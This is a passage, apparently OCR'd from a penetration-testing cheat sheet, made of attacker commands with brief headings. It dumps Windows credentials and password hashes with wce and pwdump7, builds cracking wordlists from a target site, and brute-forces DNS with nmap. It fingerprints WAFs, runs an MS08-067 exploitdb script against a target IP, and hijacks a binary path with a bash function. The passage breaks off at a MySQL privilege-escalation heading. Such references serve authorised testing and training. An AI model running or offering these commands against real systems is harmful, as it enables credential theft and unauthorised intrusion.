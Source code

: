 ```
http://www.ampliasecurity.com/research/windows-credentials-editor/
wce -w

# dump hashes of other users with pwdump7
http://www.heise.de/download/pwdump.html
# we can try online hash cracking tools such crackstation.net
```
### Generate our own dic file based on the website content

```
$ cewl -m 4 -w dict.txt http://site.url
$ john --wordlist=dict.txt --rules --stdout
```
### Bruteforce DNS records using Nmap

```
$ nmap --script dns-brute --script-args dns-brute.domain=foo.com,dns-brute.threads=6,dns-brute.hostlist=./hostfile.txt,newtargets -sS -p 80
$ nmap --script dns-brute www.foo.com
```
### Identifying a WAF with Nmap

```
$ nmap -p 80,443 --script=http-waf-detect 192.168.56.102
$ nmap -p 80,443 --script=http-waf-fingerprint 192.168.56.102
$ wafw00f www.hamza.com
```
### MS08-067 - without the use of Metasploit

```
$ nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205
$ searchsploit ms08-067
$ python /usr/share/exploitdb/platforms/windows/remote/7132.py 192.168.31.205 1
```
### Nikto scan with SQUID proxy

```
$ nikto -useproxy http://squid_ip:3128 -h http://target_ip
```
### Hijack a binary’s full path in bash to exec your own code

```
$ function /usr/bin/foo () { /usr/bin/echo "It works"; }
$ export -f /usr/bin/foo
$ /usr/bin/foo
# It works ;)
```
### Local privilege escalation through MySQL run with root privileges
